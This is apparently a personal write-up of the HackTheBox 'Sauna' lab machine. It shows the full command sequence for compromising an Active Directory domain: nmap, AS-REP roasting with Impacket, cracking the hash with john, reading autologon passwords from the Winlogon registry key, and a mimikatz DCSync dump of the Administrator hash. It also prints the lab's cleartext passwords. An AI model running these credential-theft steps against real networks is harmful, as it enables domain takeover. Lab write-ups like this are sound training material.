 ```yaml
---
title: HackTheBox Sauna Writeup
published: true
---
```


![logo](https://i.ibb.co/m620KrC/sauna.png)

# []()Methodology

* Nmap-Scan
* Ldap-Enumeration
* Enum-Valid TGT with GetNpUsers from Impacket
* Login as fsmith
* catch autologin credentials from autologon registry
* Privilege Escalation

# []()Nmap-Scan:

> as always, i did nmap scan to find out which servicecs was running in this machine, i found some important ports like **80** for Microsoft IIS and **389** for ldap.

* let's start

> nmap -sS -sC -sV 10.10.10.175 -oN scan.txt 

```ruby

PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-03 08:11:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: **EGOTISTICAL-BANK.LOCAL0**., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/3%Time=5E86A997%P=x86_64-pc-linux-gnu%r(DNSVe
SF:rsionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\x
SF:04bind\0\0\x10\0\x03");
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 4h59m28s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2020-04-03T08:14:32
|_  start_date: N/A


```

> let's check the web-page.

# []()Checking-The-Web-Page:

* from the web-page i made a wordlist which contain some usernames, i used this list for bruteforcing the smb credentials but it didn't work, but when i used the Impacket tool --> worked successfully. let's start.

* the web-page.

> ![wep-page](https://i.ibb.co/mBwYHJn/web-page.png)

* very normal page. let's scroll down now.

> ![](https://i.ibb.co/kJFw6tx/about.png)

* I was distracted in this part because I found that the names consist of two parts so we have to know how names are written or stored or how to choose the names in the AD

> i read this blog to know how to choose usernames for my wordlist [ Active Directory user naming conventions ](https://activedirectorypro.com/active-directory-user-naming-convention/)

> the way is very easy like if we have username with 2 part's like **fergus smith** the username of the AD could be f.smith, the first char of the first part and all the seconed part, you got me!.

* let's make wordlist.

* this is a simple wordlist i made it.

```ruby

f.smith
fsmith
s.coins 
scoins
h.bear
hbear
b.taylor
btaylor
s.driver
sdriver
s.kerb
skerb

```

> let's go to **/usr/share/doc/python3-impacket/examples** and use **GetNPUsers.py**

> **python3 GetNPUsers.py EGOTISTICAL-BANK.LOCAL/ -usersfile /home/xdev05/Documents/HTB/Sauna/wordlist.txt -no-pass**
>
> ![TGT](https://i.ibb.co/VTXrYWQ/TGT.png)

* nice! let's crack this hash with john-the-ribber.

> **sudo john --wordlist=/usr/share/wordlists/rockyou.txt TGT**

```ruby

Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
1g 0:00:00:14 DONE (2020-07-17 23:51) 0.07082g/s 746388p/s 746388c/s 746388C/s Thing..Thehunter22
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

* nice! we have user and his password let's login with evil-winrm

> User: **fsmith** , Password: **Thestrokes23**

> Login as **fsmith** and read the **user flag**.
>
> ![user](https://i.ibb.co/bPz0fks/user.gif)

# []()Privilege Escalation

* after some enumeration with winPEAS.exe [WinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS), i foudn credentials for another user.

* let's start. i did it without WinPEAS.exe because i didn't like it.

> command: **reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"**

```ruby

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
    AutoRestartShell    REG_DWORD    0x1
    Background    REG_SZ    0 0 0
    CachedLogonsCount    REG_SZ    10
    DebugServerCommand    REG_SZ    no
    DefaultDomainName    REG_SZ    EGOTISTICALBANK
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DisableBackButton    REG_DWORD    0x1
    EnableSIHostIntegration    REG_DWORD    0x1
    ForceUnlockLogon    REG_DWORD    0x0
    LegalNoticeCaption    REG_SZ
    LegalNoticeText    REG_SZ
    PasswordExpiryWarning    REG_DWORD    0x5
    PowerdownAfterShutdown    REG_SZ    0
    PreCreateKnownFolders    REG_SZ    {A520A1A4-1780-4FF6-BD18-167343C5AF16}
    ReportBootOk    REG_SZ    1
    Shell    REG_SZ    explorer.exe
    ShellCritical    REG_DWORD    0x0
    ShellInfrastructure    REG_SZ    sihost.exe
    SiHostCritical    REG_DWORD    0x0
    SiHostReadyTimeOut    REG_DWORD    0x0
    SiHostRestartCountLimit    REG_DWORD    0x0
    SiHostRestartTimeGap    REG_DWORD    0x0
    Userinit    REG_SZ    C:\Windows\system32\userinit.exe,
    VMApplet    REG_SZ    SystemPropertiesPerformance.exe /pagefile
    WinStationsDisabled    REG_SZ    0
    scremoveoption    REG_SZ    0
    DisableCAD    REG_DWORD    0x1
    LastLogOffEndTimePerfCounter    REG_QWORD    0x303697c4
    ShutdownFlags    REG_DWORD    0x13
    DisableLockWorkstation    REG_DWORD    0x0
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AlternateShells
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserDefaults
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\AutoLogonChecked
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\VolatileUserMgrKey

```

* nice, we have the password for **svc_loanmgr**, let's login again with this credentials.

> Username: **svc_loanmanager**, Password:  **Moneymakestheworldgoround!**
>
> ![](https://i.ibb.co/Sn9b7G4/svc.png)

# []()Privilege Escalation --> Administrator:

> in this part, i used mimikatz to dump the **DCSyncing Hashes** and you can read about it from [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)

* let's upload mimikatz to the machine. you can download mimikatz from [here](https://github.com/gentilkiwi/mimikatz/releases)

> command: **.\mimikatz.exe "lsadump::dcsync /user:Administrator"**
>
> ![admin](https://i.ibb.co/C9v7BxB/admin-hash.gif)

* nice!.

# []()Root@Sauna

![admin](https://i.ibb.co/RvJ4x1K/admin.gif)

* cheers!

* Thanks for reading.

 <script src="https://www.hackthebox.eu/badge/103789"></script>

